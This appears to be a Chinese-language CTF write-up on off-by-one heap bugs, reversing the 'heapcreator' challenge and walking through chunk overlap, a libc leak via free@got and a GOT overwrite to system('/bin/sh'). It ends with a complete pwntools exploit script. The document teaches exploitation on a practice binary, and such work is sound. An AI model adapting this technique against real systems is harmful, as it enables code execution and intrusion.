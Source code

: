 ```yaml
---
title: Off-By-One
tags: [ctf-pwn,exp]
date: 2022-11-27 19:00:00
excerpt: 堆中的 off-by-one 漏洞, hitcon_heapcreator exp
---
```


#### Off-By-One漏洞如何产生

1. 循环多一次

   ```C
   x = malloc(10);
   for(int i=0;i<=10;i++)
   {
       x[i] = getchar();
   }
   ```

   x的下一个chunk第一个字节被溢出了

2. `strlen`和`strcpy`行为不一致

   ```C
   if(strlen(buffer)==100)
   {
       strcpy(chunk,buffer);
   }
   ```

   `strlen`返回值不算结束符'`\0`，而`strcpy`复制时会把结束符在内的101个字符复制过去
   
   

#### hitcon_creator

##### 1. create

![](/img/off_by_one/1.png)

从上述结构可以推断出heaparray是如下结构

```C
struct heaparray_item{
    int_64   size;
    char * content;
}
struct heaparray_item * heaparray[10];
```



##### 2. edit

```C
if ( *(&heaparray + v1) )
{
    printf("Content of heap : ");
    read_input(*((_QWORD *)*(&heaparray + v1) + 1), *(_QWORD *)*(&heaparray + v1) + 1LL);
    puts("Done !");
}
```

`read_input`读取size+1字节，出现了off_by_one漏洞

可以覆盖下一个chunk的size字段



##### 漏洞利用

1. 申请三个堆块，大小为0x18,0x10,0x10，加上三次size申请的0x10，一共6个chunk

    ![](/img/off_by_one/2.jpg)

2. 修改0号块，写入`/bin/sh`，然后再溢出`0x81`到下一个chunk的size

   ![](/img/off_by_one/3.jpg)

3. 这时delete chunk 1，会合并到前一个chunk（也就是1的size所在chunk）中

    ![](/img/off_by_one/4.jpg)

    观察bins，发现这个chunk被free到fastbin的0x80节点上（0x20上也有一个chunk是因为delete也会将size释放掉）

    ![](/img/off_by_one/5.jpg)

4. 申请一个新的chunk，将0x80这个块申请出来，因此malloc的大小需要为0x70

    同时，在2号的content位置写入`free@got`

    这时调用show(2)会泄露free的地址

    ![](/img/off_by_one/6.jpg)

5. 泄露libc基址找到system地址

6. `edit(2,p64(system_addr))`时，会修改content指针指向的内容，而content指针被`free@got`替换掉了，所以free的got表被修改成了`system@got`上的地址

7. 然后`delete(0)`时，首先要free掉`heaparray[0].content`上的内容，但是由于free被替换成了system，结果就变成了以content指针为参数调用system函数的情况，而`heaparray[0].content`恰好是之前写过的`/bin/sh`，因此执行了`system('/bin/sh')

   

##### 完整exp

> libcsearcher挑版本为2.23的

```python
from pwn import *
from LibcSearcher import *
r = process('./heapcreator')
#r = remote('node4.buuoj.cn',26117)
elf = ELF('./heapcreator')

def add(size,content):
    r.sendlineafter("choice :",'1')
    r.sendlineafter("Heap : ",str(size))
    r.sendlineafter("heap:",content)

def edit(idx,content):
    r.sendlineafter("choice :",'2')
    r.sendlineafter("Index :",str(idx))
    r.sendlineafter("heap : ",content)

def show(idx):
    r.sendlineafter("choice :",'3')
    r.sendlineafter("Index :",str(idx))

def delete(idx):
    r.sendlineafter("choice :",'4')
    r.sendlineafter("Index :",str(idx))

free_got = elf.got['free']

add(0x18,"MMMM")
add(0x10,"MMMM")
add(0x10,"MMMM")
#gdb.attach(r)

edit(0,b'/bin/sh\x00'+p64(0)*2+b'\x81')
#gdb.attach(r)

delete(1)
#gdb.attach(r)

add(0x70,p64(1)*8+p64(0x8)+p64(free_got))
show(2)
#gdb.attach(r)

free_addr = u64(r.recvuntil(b'\x7f')[-6:].ljust(8,b'\x00'))

#libc
libc = LibcSearcher('free',free_addr)
offset = free_addr-libc.dump('free')
system_addr = offset + libc.dump('system')

edit(2,p64(system_addr))
#gdb.attach(r)
delete(0)

r.interactive()
```

